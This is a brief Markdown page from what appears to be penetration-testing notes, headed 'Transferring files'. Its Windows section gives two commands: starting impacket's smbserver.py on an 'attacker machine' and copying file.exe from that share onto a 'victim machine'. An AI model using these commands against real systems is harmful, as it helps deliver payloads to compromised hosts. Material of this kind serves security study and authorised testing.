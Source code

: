 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Transferring files

## Windows

## Impacket-smbserver.py

```bash
smbserver.py <share> /path/to/file    #attacker machine
copy \\$IP\<share>\file.exe    # victim machine
```

